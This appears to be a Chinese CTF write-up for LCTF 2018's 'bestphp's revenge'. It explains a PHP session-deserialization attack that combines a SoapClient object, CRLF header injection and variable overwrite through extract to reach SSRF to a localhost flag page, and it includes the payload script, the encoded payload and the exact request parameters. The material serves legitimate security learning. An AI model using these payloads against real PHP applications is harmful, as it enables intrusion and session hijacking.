 # bestphp's revenge

[题目地址](https://buuoj.cn/challenges#bestphp's%20revenge)

这题看起来有两种解法，不过本质上应该是一样的。

```php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?>
```

扫目录还出来个flag.php。

```php
session_start(); 
echo 'only localhost can get flag!'; 
$flag = 'LCTF{*************************}'; 
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){ 
    $_SESSION['flag'] = $flag; 
}
```

本地才能看到flag，这就需要ssrf了。不会，看[wp](https://blog.csdn.net/qq_45691294/article/details/108790497)。这题看起来代码不多，知识点还不少啊。首先我们的目标是ssrf，但这里怎么看都不像有ssrf漏洞的样子。不过index的call_user_func和session倒是挺可疑的，能不能利用一下？
，
题目确实没有ssrf的环境，我们自己创造一个。php有个[Soap](https://www.anquanke.com/post/id/153065#h2-5)，里面有个[SoapClient](https://www.php.net/manual/zh/class.soapclient.php)类，可以发送http请求。然而怎么调用？这时就不得不请出老朋友反序列化漏洞的分支——[session反序列化漏洞](https://www.freebuf.com/articles/web/324519.html)了，可以帮我们创建出SoapClient类。文章讲得很详细，简述就是php反序列化处理器的差异导致了session反序列化漏洞。看下面两个处理器：

- php：键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值
- php_serialize：经过 serialize() 函数反序列处理的数组

php会把session以序列化的形式存储在一个文件里，不同的处理器决定以何种方式存储。假如我们先用php_serialize处理器，发送`a=|O:4:“test”:0:{}`，那么session文件里存储的就是`a:1:{s:1:“a”;s:16:"|O:4:“test”:0:{}";}`。这时换成php处理器来读取，处理器就会把`a:1:{s:1:“a”;s:16:"`看成键名，`O:4:“test”:0:{}";}`看成值，session读取时再反序列化一下，一个类就这么诞生了。

默认是php处理器，我们可以用`session_start(['serialize_handler'=>'php_serialize'])`将处理器改成php_serialize注入。注入什么呢？看大佬脚本。

```php
<?php
$target = "http://127.0.0.1/flag.php";
$attack = new SoapClient(null,array('location' => $target,
    'user_agent' => "N0rth3ty\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4\r\n",
    'uri' => "123"));
$payload = urlencode(serialize($attack));
echo $payload;
"""
O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A56%3A%22N0rth3ty%0D%0ACookie%3A+PHPSESSID%3Dtcjr6nadpk3md7jbgioa6elfk4%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
"""
```

这里还用了一个[CRLF注入](https://www.anquanke.com/post/id/240014)。CRLF 是回车符（CR，ASCII 13，\r，%0d）和换行符（LF，ASCII 10，\n，%0a）的简称（\r\n）。在HTTP协议中，HTTP Header 部分与 HTTP Body 部分是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP 内容并显示出来。所以，一旦我们能够控制 HTTP 消息头中的字符，注入一些恶意的换行，就能注入一些恶意的HTTP Header，如会话Cookie，甚至可以注入一些HTML代码。代码中的`\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4\r\n`正是如此，利用这个方法，我们伪造了一个cookie，让服务器ssrf时带上这个cookie。

接下来我们把一切和在一起。get传参f=session_start&name=`|O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A56%3A%22N0rth3ty%0D%0ACookie%3A+PHPSESSID%3Dtcjr6nadpk3md7jbgioa6elfk4%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D`;post传参serialize_handler=php_serialize，将反序列化解释器改为php_serialize。发送后把注入内容写入cookie。

最后就是触发反序列化漏洞了。还有一个知识点，call_user_func()函数如果传入的参数是array类型的话，会将数组的成员当做类名和方法。下一步get传f=extract&name=SoapClient；post传b=call_user_func，触发变量覆盖漏洞，覆盖b为call_user_func。这时`call_user_func($b, $a);`就变成了`call_user_func(call_user_func, array(reset($_SESSION), 'welcome_to_the_lctf2018'));`。reset(\$_SESSION)指的是session的第一个元素，即`$_SESSION['name'] = $_GET['name'];`，这也是为什么我们要传name=SoapClient。SoapClient明显没有welcome_to_the_lctf2018这个方法，就会调用魔术方法__call()。SoapClient的魔术方法__call会发送请求，造成SSRF去访问flag.php。

最后携带脚本里的sessionid去访问就能看见flag了。这里再给出另一种[解法](https://guokeya.github.io/post/lctf-bestphps-revengesoap-fan-xu-lie-hua/)，似乎更简单一点。